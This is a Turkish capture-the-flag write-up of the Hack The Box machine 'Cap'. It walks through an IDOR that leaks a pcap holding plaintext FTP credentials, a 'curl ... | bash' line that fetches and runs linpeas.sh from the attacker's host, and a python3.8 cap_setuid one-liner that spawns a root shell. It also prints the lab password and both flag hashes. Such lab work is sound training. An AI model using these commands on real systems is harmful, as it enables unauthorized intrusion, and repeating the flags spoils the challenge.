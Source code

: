 ```yaml
---
categories: [makine]
layout: post
desc: "Cap, ağ yakalamaları da dahil olmak üzere yönetim işlevleri gerçekleştiren bir HTTP sunucusu çalıştıran kolay zorluktaki bir Linux makinesidir. Uygunsuz denetimler, başka bir kullanıcının yakalamasına erişim sağlayan Güvensiz Doğrudan Nesne Başvurusu (IDOR) ile sonuçlanır. Yakalama, düz metin kimlik bilgileri içerir ve dayanak kazanmak için kullanılabilir. Daha sonra bir Linux yeteneği köke yükseltmek için kullanılır."
logo: "/assets/images/cap.png"
author: Buse Naz Yılmaz
title: HTB Cap
tags: [htb, web] 
---
```

# Bilgi Toplama

Makinemizin IP adres: 10.10.10.245

Bilgi toplamak için ilk başta hangi portlar açık diye nmap taraması gerçekleştirdim.

<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> nmap 10.10.10.245<br>Starting Nmap 7.95 ( https://nmap.org) at 2025-03-19 09:15 EDT<br>Nmap scan report for 10.10.10.245<br>Host is up (0.079s latency).<br>Not shown: 997 closed tcp ports(reset)<br>PORT STATE SERVICE<br>21/tcp open ftp<br>22/tcp open ssh<br>80/tcp open http
</div>
Nmap çıktısı bize 3 tane portun açık olduğunu gösterdi. Çözümümüze 80 portundan devam edebiliriz. 80 portuna tarayıcı üzerinden erişince aşağıdaki gibi bir güvenlik dashboard'u bizi karşılıyor.

<div style="text-align: center;">
  <img src="./assets/images/htb_cap/80port.webp" width="700" height="200">
</div>
  
Burada yer alan security events, failed login attemps gibi menüler ile internet trafiğinin kontrol edildiği bir yere benziyor. Sol üstte "nathan" isimli bir kullancıı olarak giriş yaptığımız gözüküyor. Yandaki menüyü incelediğimizde ise ayrı olarak 3 tane sekmesinin olduğunu görüyoruz. Buradan Security Snapshot sekmesine gelince bizi bir tür ağ trafiği inceleme sayfası karşılıyor. Farklı çeşitte paketlerin bilgisini bize vermekte. Download butonu ile ağ paketlerini pcap dosyası olarak indirebiliyoruz. Sayfanın URL’de yazan 28 sayısı dikkatimizi çekiyor. Bu ID’si 28 olan pcap dosya içeriğini gösteriyor olabilir mi?

<div style="text-align: center;">
  <img src="./assets/images/htb_cap/dashboard.webp" width="760" height="300">
</div>

Eğer gerçekten URL’de yazan sayılar ID belirtiyorsa burada bir IDOR açığını söz konusu olabilir. URL üzerindeki sayıyı değiştirerek farklı pcap dosyalarına erişmeye çalışalım.

<div style="text-align: center;">
  <img src="./assets/images/htb_cap/dashboard2.webp" width="760" height="300">
</div>

Gözüktüğü üzere evet burada IDOR açığı var ve sayesinde 0 ID’li pcap dosya içeriğine ulaşabiliyoruz. IDOR, bir saldırganın bir isteğin URL'sini veya parametresini manipüle ederek erişmesi amaçlanmayan nesnelere erişmesine olanak tanıyan bir güvenlik açığıdır.

Download diyerek 0.pcap dosyasını indirip WireShark üzerinde inceleyelim. Burada çeşitli bir sürü prokolün paketini görebilirsiniz. Paketleri incelerken aşağıdaki görüntüyle karşılaşıyorum.  

<div style="text-align: center;">
  <img src="./assets/images/htb_cap/pcap.webp" width="1260" height="100">
</div>

FTP protokolünden gelen cleantext user ve pass bilgisi önümüzde duruyor. Bu bilgileri kullanarak FTP prokolüne giriş yapmayı deneyelim. 

# Sömürü

Kullancıı adımız: "nathan"
Şifremiz: "Buck3tH4TF0RM3!"

<div class="code-window">
<br>
<span class="highlight">nzy@kali</span> ftp 10.10.10.245<br>Connected to 10.10.10.245.<br>220 (vsFTPd 3.0.3)<br>Name (10.10.10.245:nzy): nathan<br>331 Please specify the password.<br>Password:<br>230 Login successful.<br>Remote system type is UNIX.<br>Using binary mode to transfer files.
<span class="highlight">ftp></span>
</div>

Giriş yaptıktan sonra dosyaları görüntülemek için ls komutunu kullanıyoruz.

<div class="code-window">
<br>
<span class="highlight">ftp></span> ls Frame<br>229 Entering Extended Passive Mode (|||12590|)<br>150 Here comes the directory listing.<br>-rwxrwxr-x  1 1001 1001  840082 Mar 01 04:27 linpeas.sh<br>-rw-rw-r--     1 1001 1001          47  Mar 19  11:35 shell.py<br>drwxr-xr-x   3 1001 1001      4096 Mar  19  08:02 snap<br>-r-------------    1 1001 1001          33  Mar  19  04:02 user.txt<br>226 Directory send OK.<br>ftp> get user.txt<br>local: user.txt remote: user.txt<br>229 Entering Extended Passive Mode (|||46069|)<br>150 Opening BINARY mode data connection for user.txt (33 bytes).<br>100%***********<br>226 Transfer complete.33 bytes received in 00:00 (0.37 KiB/s) 
</div>

Dosyalarda yer alan user.txt ile makinemizin ilk bayrağını elde edelim. Get komutu ile dosyayı kendi sistemimize indirip cat ile görüntüleyelim.

<div class="code-window">
<br>
<span class="highlight">ftp></span> get user.txt<br>local: user.txt remote: user.txt<br>200 PORT command successful. Consider using PASV.<br>150 Opening BINARY mode data connection for user.txt (33 bytes).<br>226 Transfer complete.<br>33 bytes received in 0.00 secs (13.8848 kB/s)
<span class="highlight">ftp></span> 
221 Goodbye.
</div>

<div class="code-window">
<br>
<span class="highlight">nzy@kali</span> cat user.txt<br>3969fb0407c0811b87d189ee15d62fd5
</div>

# Yetki Yükseltme

Diğer dosyalara göz attığımızda buradaki bir dosya dikkatimi çekiyor. Linpeas.sh dosyası, bir Linux sisteminde **privilege escalation (ayrıcalık yükseltme) açıklarını** bulmak için kullanılan otomatik bir betiktir. Linux makinesine erişim sağladıktan sonra root yetkisi almak için kullanılır.

Bunu çalıştırmak için kendi makinemize linpeas.sh indiriyoruz.

<div class="code-window">
<br>
<span class="highlight">nzy@kali$</span> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
</div>

Linpeas dosyasının bulunduğu dizine gidip web sunucusunu başlatıyoruz.

<div class="code-window">
  <br>
<span class="highlight">nzy@kali$</span> cd /opt/PEASS-ng/linPEAS/<br>
<span class="highlight">nzy@kali$</span> python3 -m http.server 80<br>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
</div>

Hedef makineye bu web sunucusu üzerinden dosyayı indirmek için aşağıdaki komutu kullanıyoruz. Your machine ip dediğimiz yere kendi makinenizin yani kali vb. makinesinin ipsini yazıyoruz.

<div class="code-window">
  <br>
    <span class="highlight">nzy@kali$</span> curl http://&lt;your_machine_ip&gt;/linpeas.sh | bash
</div>

Raporu incelediğimizde /usr/bin/python3.8 dosyasında cap_setuid yetkisi olduğunu görüyoruz. Bu yetkiyi kullanarak kendimizi root yetkinliğine yükseltebiliriz.

<div class="code-window">
<br>
<span class="highlight">nathan@cap$</span> python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'<br>
<span class="highlight">root@cap#</span> whoami<br>root<br>
<span class="highlight">root@cap#</span> cd root<br>
<span class="highlight">root@cap:/root#</span> cat root.txt<br>f90b41a4281e0b472d33267c07b25b6a
</div>

Böylece root bayrağımızı da bulmuş oluyoruz.

# Notlar

Bazı kavramları bilmediğim için bu kısımda anlatmak istedim.

1. Linpeas.sh

**LinPEAS**, bir Linux sisteminde **privilege escalation (ayrıcalık yükseltme) açıklarını** bulmaya yarayan otomatik bir betiktir.

1. cap_setuid

Bir programın UID değiştirmesine izin verir ve root yetkisi almak için kullanılabilir. Normalde bir kullanıcının kendi UID’sini değiştirmesi mümkün değildir. Ancak **CAP_SETUID** yetkisi olan bir program, herhangi bir kullanıcının UID’sini değiştirebilir.
